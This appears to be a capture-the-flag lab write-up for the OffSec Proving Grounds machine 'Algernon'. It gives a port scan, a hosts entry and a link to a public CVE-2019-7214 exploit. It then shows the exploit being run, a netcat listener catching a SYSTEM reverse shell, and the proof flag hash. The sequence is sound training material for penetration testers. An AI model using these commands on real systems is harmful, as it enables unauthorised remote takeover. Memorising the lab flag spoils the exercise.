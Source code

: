 No credentials were provided for this machine

nmap -vvv -T5 -Pn 192.168.164.65 -p- -A -oN nmap.txt

sudo echo "192.168.164.65 algernon.offsec" | sudo tee -a /etc/hosts

Discovered open port 17001/tcp on 192.168.164.65

https://nvd.nist.gov/vuln/detail/CVE-2019-7214

https://github.com/devzspy/CVE-2019-7214

┌──(lepotekil㉿kali)-[~/proving-ground-prac/algernon]
└─$ python3 cve-2019-7214.py                                                                  
┌──(lepotekil㉿kali)-[~/proving-ground-prac/algernon]
└─$ 

┌──(lepotekil㉿kali)-[~/proving-ground-prac/algernon]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.170] from (UNKNOWN) [192.168.164.65] 50253
whoami
nt authority\system
PS C:\Windows\system32> cd C:\Users
PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        4/29/2020  10:30 PM                .NET v4.5                                                             
d-----        4/29/2020  10:30 PM                .NET v4.5 Classic                                                     
d-----         5/2/2022   7:05 AM                Administrator                                                         
d-----        4/23/2020   3:16 AM                dean                                                                  
d-----       10/20/2025   7:19 AM                DefaultAppPool                                                        
d-r---        4/22/2020   4:54 AM                Public                                                                


PS C:\Users> cd Administrator
PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        4/29/2020   9:26 PM                3D Objects                                                            
d-r---        4/29/2020   9:26 PM                Contacts                                                              
d-r---         5/2/2022   7:52 AM                Desktop                                                               
d-r---        4/29/2020   9:26 PM                Documents                                                             
d-r---         5/2/2022   7:46 AM                Downloads                                                             
d-r---        4/29/2020   9:26 PM                Favorites                                                             
d-r---        4/29/2020   9:26 PM                Links                                                                 
d-r---        4/29/2020   9:26 PM                Music                                                                 
d-r---         5/2/2022   7:49 AM                OneDrive                                                              
d-r---        4/29/2020   9:34 PM                Pictures                                                              
d-r---        4/29/2020   9:26 PM                Saved Games                                                           
d-r---        4/29/2020   9:29 PM                Searches                                                              
d-r---        5/12/2020   2:04 AM                Videos                                                                


PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----       10/20/2025   7:14 AM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> cat proof.txt
dc47120006cace295f41b92636cbb85c